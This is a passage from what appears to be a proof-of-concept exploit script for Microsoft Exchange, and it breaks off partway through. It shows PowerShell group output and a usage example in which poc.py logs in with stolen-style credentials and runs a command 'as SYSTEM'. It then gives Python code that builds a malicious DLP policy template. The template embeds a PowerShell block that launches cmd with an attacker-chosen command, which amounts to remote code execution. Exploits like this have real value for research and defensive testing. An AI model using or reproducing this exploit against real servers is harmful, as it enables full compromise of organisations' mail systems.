     LinkedPartnerGroupId        :
    LinkedPartnerOrganizationId :
    Identity                    : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
    IsValid                     : True
    ExchangeVersion             : 0.10 (14.0.100.0)
    Name                        : dlp users
    DistinguishedName           : CN=dlp users,OU=Microsoft Exchange Security Groups,DC=exchangedemo,DC=com
    Guid                        : fa5c8458-8255-4ffd-b128-2a66bf9dbfd6
    ObjectCategory              : exchangedemo.com/Configuration/Schema/Group
    ObjectClass                 : {top, group}
    WhenChanged                 : 6/12/2020 11:29:31 PM
    WhenCreated                 : 6/12/2020 11:29:31 PM
    WhenChangedUTC              : 6/12/2020 3:29:31 PM
    WhenCreatedUTC              : 6/12/2020 3:29:31 PM
    OrganizationId              :
    Id                          : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
    OriginatingServer           : DEAD01.exchangedemo.com
    ObjectState                 : Changed

    # Example:

    researcher@incite:~$ ./poc.py
    (+) usage: ./poc.py <target> <user:pass> <cmd>
    (+) eg: ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint

    researcher@incite:~$ ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint
    (+) logged in as harrym@exchangedemo.com
    (+) found the __viewstate: /wEPDwUILTg5MDAzMDFkZFAeyPS7/eBJ4lPNRNPBjm8QiWLWnirQ1vsGlSyjVxa5
    (+) executed mspaint as SYSTEM!
    """

    import re
    import sys
    import random
    import string
    import urllib3
    import requests

    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


    def random_string(str_len=8):
        letters = string.ascii_lowercase
        return ''.join(random.choice(letters) for i in range(str_len))


    def get_xml(c):
        return """<?xml version="1.0" encoding="UTF-8"?>
    <dlpPolicyTemplates>
      <dlpPolicyTemplate id="F7C29AEC-A52D-4502-9670-141424A83FAB" mode="Audit" state="Enabled" version="15.0.2.0">
        <contentVersion>4</contentVersion>
        <publisherName>si</publisherName>
        <name>
          <localizedString lang="en"></localizedString>
        </name>
        <description>
          <localizedString lang="en"></localizedString>
        </description>
        <keywords></keywords>
        <ruleParameters></ruleParameters>
        <policyCommands>
          <commandBlock>
            <![CDATA[ $i=New-object System.Diagnostics.ProcessStartInfo;$i.UseShellExecute=$true;$i.FileName="cmd";$i.Arguments="/c %s";$r=New-Object System.Diagnostics.Process;$r.StartInfo=$i;$r.Start() ]]>